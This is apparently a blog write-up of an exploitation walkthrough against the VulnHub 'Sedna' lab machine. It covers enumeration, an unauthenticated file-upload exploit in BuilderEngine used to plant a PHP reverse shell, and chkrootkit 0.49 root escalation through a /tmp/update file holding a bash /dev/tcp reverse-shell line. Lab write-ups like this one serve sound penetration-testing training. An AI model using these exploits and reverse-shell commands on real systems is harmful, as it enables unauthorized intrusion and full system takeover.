 ```yaml
---
layout: post
title: PenLog - "Sedna" by VulnHub
categories: [VulnHub, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [VulnHub](https://www.vulnhub.com/)\
**Difficulty:** Medium\
**Link:** [HACKFEST2016: SEDNA](https://www.vulnhub.com/entry/hackfest2016-sedna,181/)

## Enumeration

Run `netdiscover` to find the IP address of the VM:

```bash
$ netdiscover -i vmnet1
192.168.42.130  00:0c:29:9a:47:01      1      42  VMware, Inc.
```

Run full `nmap` port scan on the discovered target IP:
```bash
$ nmap -vv -Pn -sT -T4 -p- -n 192.168.42.130
```

This results in:

![nmap2](/images/posts/penlog_sedna_by_vulnhub/nmap2.png)

Run `DirBuster` against the target's open http port 80 using the _/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt_ wordlist and
options _Be Recursive_ switched off, and _File extension_ set to _html, php, txt_.

Note **/licence.txt** in the result; navigate to this in the browser and notice the line:

    Copyright (c) 2012 - 2015 BuilderEngine / Radian Enterprise Systems Limited.

Continuing through the `DirBuster` results, note **/finder.html**, which, when navigated to in the browser,
has the title: **elFinder 2.0**.

Searching Google, there is a **BuilderEngine** project on GitHub at [tripflex/builder-engine]() with the
description: _"Open source CMS HTML 5 website builder."_

Taking a chance on this, use `searchsploit` and evaluate results:

```bash
$ searchsploit enginebuilder
...
```

![searchsploit](/images/posts/penlog_sedna_by_vulnhub/searchsploit_enginebuilder.png)

Download the non-Metasploit PoC with EDB ID **40390**:

```bash
$ searchsploit -m 40390
```

### 40390 Description

40390 reports EngineBuilder v3.5.0 as having a Remote Code Execution vulnerability; reading the PoC, it describes the ability to perform Arbitrary File Upload via unauthenticated, unrestricted access to a bundled jQuery File Upload plugin _/themes/dashboard/assets/plugins/jquery-file-upload_.

With this file upload capability, upload a reverse PHP shell--the website is serving PHP--to establish a low-privilege _user_ shell.

## User Shell

Copy 40390, changing the extension from _.php_ to _.html_:

```bash
$ cp 40390.{php,html}
```

Update the PoC's action string to instead include the target IP address:

```bash
$ diff 40390.html 40390.php
22c22
< <form method="post" action="http://192.168.42.130/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
---
> <form method="post" action="http://localhost/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
27c27
< </html>
---
> </html>
\ No newline at end of file
```

Copy _/usr/share/webshells/php/php-reverse-shell.php_ from Kali's bundled webshells and update the connect back IP address/port to be the attacking IP address/port:

![php-webshell](/images/posts/penlog_sedna_by_vulnhub/php_webshell.png)

Serve the _html_ version of 40390 locally and upload the modified _php-reverse-shell.php_:

![40390-upload](/images/posts/penlog_sedna_by_vulnhub/40390_upload.png)

As noted in the documentation, 40390 advises that the uploaded shell will be accessible via _/files_:

![files-list](/images/posts/penlog_sedna_by_vulnhub/files_list.png)

Start an `nc` lister on the port that was added to the modified _php-reverse-shell.php_:

```bash
$ nc -vnlp 4444
```

Click the _php-reverse-shell.php_ link in the browser and establish a reverse shell connection:

![user-shell](/images/posts/penlog_sedna_by_vulnhub/user_shell.png)
_(Note: "reverse" in the above is a bash alias for `nc -vnlp 4444`.)_

Get the user _flag.txt_:

![user-flag](/images/posts/penlog_sedna_by_vulnhub/user_flag.png)

Lastly, upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

(After spending an hour looking at some other installed, vulnerable software, and attempting _Dirty Cow_ for this vulnerable _Linux Kernel v3.13.0-32_, I discovered a vector via `cron`.)

Upload and execute custom `cronmon.sh`:

```bash
$ cat cronmon.sh
#!/bin/bash

#IFS=$'\n'

old_process=$(ps -eo command)  # sort by command (-o)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process")
    sleep .2
    old_process=$new_process
done
```

After a while, notice `chkrootkit` in the output, running as **root**:

![chkrootkit-cron-root](/images/posts/penlog_sedna_by_vulnhub/chkrootkit_cron_root.png)

Notice path _/etc/chkrootkit_ on target (non-standard) and version string in _/etc/chkrootkit/README_:

```bash
$ cat /etc/chkrootkit/README
...
 09/30/2009 - Version 0.49  new tests: Mac OS X OSX.RSPlug.A.  Enhanced
                            tests: suspicious sniffer logs, suspicious
                            PHP files, shell history file anomalies.
                            Bug fixes in chkdirs.c, chkproc.c and
                            chkutmp.c.
```

Search for a local privilege escalation with `searchsploit` and download the non-Metasploit PoC **33899**:

![33899-chkrootkit](/images/posts/penlog_sedna_by_vulnhub/33899_chkrootkit.png)
_(Note: "ss" in the above is a bash alias for `searchsploit`.)_

### 33899 Description

33899 reports chkrootkit v0.49 as having a vulnerable function that will execute files specified in a variable due to unquoted variable assignment. The PoC goes on to describe _"Steps to reproduce"_:
- Put an executable file named 'update' in /tmp
- Run chkrootkit (as uid 0)

## Root Shell

Follow the instructions and put the file with a bash reverse shell to attacking machine:

```bash
$ echo "bash -i >& /dev/tcp/192.168.42.129/4445 0>&1" > /tmp/update
$ chmod +x /tmp/update
```

Start `nc` listener on the attacking machine, specifying expected reverse shell port (4445 in this case):

```bash
$ nc -vnlp 4445
```

Wait for `cron` to execute `chkrootkit` as root; reading _/etc/crontab_, the root _/etc/cron.hourly_ will run every **17 min**:

![root-cron-hourly](/images/posts/penlog_sedna_by_vulnhub/root_cron_hourly.png)

After _/tmp/update_ is executed as _root_ via the `cron` call to `chkrootkit`, get the root _flag.txt_ via the established root shell:

![root-shell](/images/posts/penlog_sedna_by_vulnhub/root_shell.png)
